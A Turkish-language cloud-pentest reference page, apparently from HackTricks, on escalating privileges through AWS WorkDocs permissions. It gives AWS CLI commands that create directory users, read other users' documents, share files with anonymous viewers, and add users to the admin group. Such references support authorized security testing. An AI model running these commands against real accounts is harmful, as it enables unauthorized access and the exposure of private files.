 # AWS - WorkDocs Privesc

## WorkDocs

WorkDocs hakkında daha fazla bilgi için şu adrese bakın:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Belirtilen Dizin içinde bir kullanıcı oluşturun, böylece hem WorkDocs'a hem de AD'ye erişiminiz olacaktır:

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Dosyalar hassas bilgiler içerebilir, onları okuyun:

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

Bir şeye erişiminiz yoksa, sadece erişim sağlayabilirsiniz.

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

Bir kullanıcıyı yönetici yapabilirsiniz, onu ZOCALO\_ADMIN grubuna ekleyerek. Bunun için [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html) adresindeki talimatları izleyin.

Kullanıcıyla workdoc'a giriş yapın ve `/workdocs/index.html#/admin` adresindeki yönetici paneline erişin.

Bu işlemi cli üzerinden yapmanın bir yolunu bulamadım.
